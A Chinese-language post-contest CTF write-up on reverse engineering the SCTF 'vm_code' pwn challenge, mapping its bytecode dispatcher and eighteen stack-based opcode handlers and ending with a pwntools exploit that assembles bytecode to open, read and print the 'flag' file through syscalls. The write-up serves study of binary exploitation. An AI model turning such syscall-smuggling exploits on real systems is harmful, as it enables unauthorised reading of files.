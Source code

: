 ```yaml
---
title: sctf-vmcode的逆向过程
date: 2024-10-2
categories: vm
tags: 赛后诸葛亮
---
```

[题目附件](pwn)
# 前言
比赛那两天偷懒了，两天都只打了半天，到晚上就不想看了。
然后vm_code这题要是有时间的话看一下应该是能做的。赛后自己研究了一下发现还行。
这题主要是想记录一下vm题的逆向过程。
# 逆向过程
![resolve](resolve.png)
## 0x122f
图片中是main函数的后半段，清除rdi，rsi之后直接call +5，就跳转到了`123A`的`lea rax,code`

然后从`code+rsi`的地址取出一个字节放进rax，rsi增加一，rax-0x21之后跳转到1257

先说下这段是什么意思，很明显，rsi是起到rip的作用，`code+rsi`就是运行代码的位置。rax则是起到暂存当前执行代码的功能。

还有就是如果rax<0x21，那么跳转不成立，就会执行ud2指令，导致程序卡死利用失败。
## 0x1257
![jpm_func](jmp_func.png)
如果成功跳转到1257后，将rax的值暂存到rcx，然后程序取offset段地址放进rax，然后以[rax+rcx*2]的值为rax的值，加上一个基地址，最后跳转。

在offset段看到，有很多似乎不明意义的数字，不过仔细观察可以发现规律，每个有数据的byte中间都隔了一个`\x00`，也就是和刚刚看到的[rax+rcx*2]对应上了，解释了为什么rcx需要乘以2。

所以总结一下功能，就是根据输入的字节码，在offset段上寻找偏移，最后跳转到`main+209+偏移`的位置。
## 18个可执行函数
![jpm_able](jpm_able.png)
刚刚说了可以通过输入字节码让程序在offset段寻址并根据找到的值跳转，在ida里又可以看到有很多带有retn的函数(或者说是小代码块也可以)，猜测offset的值与这些retn的小函数偏移一一对应，验证后果然如此。
接下来就是逐个解析十八个小函数的功能，程序在vm中实现了栈功能，并且没有分配给vm寄存器的内存，所有功能都以栈为基础。实际功能在下面。
到了这一步就挺简单的了，因为程序直接给了push和syscall的功能，只要布置好栈上的值就行了。
```
rdi = sp
rbx = rbp
rsi = rip
```
```
1
pop rsi

2
pop rax;pop rcx;push (rax^rcx)

3
swap([rsp],[rsp-0x10])
4
pop rax,pop rcx,push rcx,push rax

5
push content

6
pop rax,push al

7
pop

8
shr [rsp],0x8

9
pop rax
push rax;push rax

10
shl [rsp],0x8

11
jmp(11,b'\x00')
pop rax;jmp content

12
pop rax;pop rcx;ror rax,cl;push rax

13
pop rax;pop rcx;rol rax,cl;push rax

14
pop rax;pop rcx;and rax,rcx;push rax

15
pop rax
pop rdi
pop rsi
pop rdx
syscall

16
push rsp
17
push rip

18
exit
```
# exp
```
from pwn import *
context(
    terminal = ['tmux','splitw','-h'],
    log_level="debug",
)

io = process("./pwn")

shcode = b''
shcode +=p8(5+0x21) + b'flag'
shcode +=p8(16+0x21)
shcode +=p8(5+0x21) + p32(0x0)
shcode +=p8(9+0x21)
shcode +=p8(3+0x21)
shcode +=p8(5+0x21) + p32(0x2)
shcode +=p8(15+0x21)

shcode +=p8(16+0x21)
shcode +=p8(5+0x21) + p32(0x80)
shcode +=p8(2+0x21)
shcode +=p8(5+0x21) + p32(0x80)
shcode +=p8(4+0x21)
shcode +=p8(5+0x21) + p32(0x3)
shcode +=p8(5+0x21) + p32(0)
shcode +=p8(15+0x21)

shcode +=p8(7+0x21)
shcode +=p8(16+0x21)
shcode +=p8(5+0x21) + p32(0x80)
shcode +=p8(2+0x21)
shcode +=p8(5+0x21) + p32(0x80)
shcode +=p8(4+0x21)
shcode +=p8(5+0x21) + p32(0x1)
shcode +=p8(5+0x21) + p32(0x1)
shcode +=p8(15+0x21)

io.send(shcode)

io.interactive()
```

